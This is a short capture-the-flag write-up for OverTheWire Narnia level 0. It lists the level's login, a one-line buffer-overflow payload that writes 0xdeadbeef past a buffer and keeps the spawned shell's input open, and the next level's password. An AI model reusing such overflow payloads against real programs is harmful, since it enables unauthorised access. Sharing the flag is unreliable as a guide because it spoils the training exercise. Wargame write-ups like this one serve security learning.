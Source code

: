 # OverTheWire Narnia Level 0

## Credentials
username: narnia0
password: narnia0


## Writeup

The `cat` program can be used to keep the standard input open after piping data into a program, allowing for further interaction.
(echo -e "11111111111111111111\xef\xbe\xad\xde"; cat;) | ./narnia0

## Flag
narnia1 password: WDcYUTG5ul
